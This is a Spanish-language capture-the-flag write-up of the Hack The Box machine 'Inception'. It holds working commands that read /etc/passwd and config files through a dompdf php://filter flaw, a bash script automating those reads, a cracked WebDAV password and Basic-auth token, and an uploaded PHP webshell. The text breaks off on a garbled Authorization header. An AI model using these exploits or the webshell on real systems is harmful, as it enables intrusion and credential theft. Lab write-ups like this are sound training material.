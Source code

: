 ```yaml
---
layout: post
title:  "Maquina Retirada Inception de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada INCEPTION
tags: HTB, dompdf, Remote File Read, squidproxy, webdav, CronTabs, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Inception ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
# nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 10.10.10.67
```
Realizamos el segundo escaneo para averiguar la version y servicios en los puerto abiertos
```bash
# nmap -sC -sV -p80,3128 -Pn -n -v 10.10.10.67

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inception
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```

Procedemos a enumerar el servicio `http` con la herramienta `whatweb`
```bash
# whatweb http://10.10.10.67                                                                                                                                                     
http://10.10.10.67 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.67], Script, Title[Inception]
```
Procedemos a hechar un ojo a la pagina web y al codigo fuente de la misma.
```bash
curl -s -X GET "http://10.10.10.67/"
<!-- Todo: test dompdf on php 7.x -->
```
Encontramos al final de codigo fuente algo sobre `DOMPDF`
Investigamos a nivel google que es DOMPDF:   `DOMPDF es un conversor de HTML a PDF escrito en PHP`
Buscamos Exploits Github para DOMPDF:   Encontramos este exploit de Arbitrary File Read en github-- `https://github.com/defarbs/dompdf-exploit`
```bash
curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd"
```

Tratamos el `Output del comando anterior para verlo todo guay y decodificarlo`
```bash
# curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd" | grep -E '[.*?]' | grep -v  '%' | grep -v '/MediaBox' | grep -v '0.000' | awk '{print $8}' | tr -d '[()]' | base64 -d

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
cobb:x:1000:1000::/home/cobb:/bin/bash
```
Identificamos un usuario llamado `cobb` 
Ahora que tenemos la vulnerabilidad de leer archivos de la maquina victima vamos a buscar por recursos interesantes en el sistema.

Enumerando el sistema atraves de un script en bash
```bash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Dompdf-RemoteFileRead.sh
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #/bin/bash
   2   │ 
   3   │ # Arbitrary File Read Machine Inception HTB HacktheBox
   4   │ 
   5   │ file='$1'
   6   │ 
   7   │ if file != '$0' 2>/dev/null; then
   8   │ 
   9   │     curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=$1" | grep -E '[.*?]' | grep -v  '%' | grep -v  '/MediaBox' | grep -v '0.000' | awk '{print $
       │ 8}' | tr -d '[()]' | base64 -d
  10   │ 
  11   │ fi
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
``` 
Procedemos a enumerar el la ruta `/etc/sites-availble/`
```bash
# ./Dompdf-RemoteFileRead.sh /etc/apache2/sites-available/000-default.conf                                                                                                                                 
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
        Alias /webdav_test_inception /var/www/html/webdav_test_inception
        <Location /webdav_test_inception>
                Options FollowSymLinks
                DAV On
                AuthType Basic
                AuthName "webdav test credential"
                AuthUserFile "/var/www/html/webdav_test_inception/webdav.passwd"
                Require valid-user
        </Location>
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

Encontramos la ruta a  `/webdav_test_inception/webdav.passwd`
Usamos nuestro script para visualizar el archivo en la ruta `/var/www/html/webdav_test_inception/webdav.passwd`
```bash
# ./Dompdf-RemoteFileRead.sh /var/www/html/webdav_test_inception/webdav.passwd                                                                                                   

"webdav_tester": "$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0"
```
Encontramos un hash que vamos a intentar romper con john:
```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hash
# john --show hash                                                                                                                                                               

"webdav_tester": "babygurl69"

1 password hash cracked, 0 left
```

Como vemos tenemos un webdav podemos intentar usar la herramienta `cadaver` para subir archivos atraves del `webdav`
```bash
cadaver http://10.10.10.67/webdav_test_inception/
Nombre de usuario: webdav_tester
Contraseña: 

dav:/webdav_test_inception/> ls
Listando colección `/webdav_test_inception/': exitoso.
        webdav.passwd                         52  nov  8  2017

dav:/webdav_test_inception/> put webshell.php
Transferiendo webshell.php a '/webdav_test_inception/webshell.php':
 Progreso: [                              ]   0,0% of 36 bytes Progreso: [=============================>] 100,0% of 36 bytes exitoso.
```

Nos subimos el siguiente script en `webshell.php`
```bash
# cat webshell.php                                                                                                                                                              
<?php
        system($_REQUEST['cmd']);
?>
```

Nos autenticamos al webdav por http y procedemos a apuntar al script webshell.php almacenado en el webdav
```bash
http://10.10.10.67/webdav_test_inception/webshell.php?cmd=whoami
www-data
```

Procedemos a intentar ganar acceso a la maquina desde nuestra webshell, pero vemos que por IPTABLES estan todas las conexiones interceptadas para que no se pueda.
Asique hacemos uso del concepto Over-HTTP-TTY de s4vitar para jugar con mkfifo
```bash
https://github.com/s4vitar/ttyoverhttp
```
Nos descargamos el repositorio y realizamos una modificacion fijandonos en que tenemos una Cookie de Seesion
```bash
Aasdadaduthorization: Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5: Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5daAuthorization: Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5
```
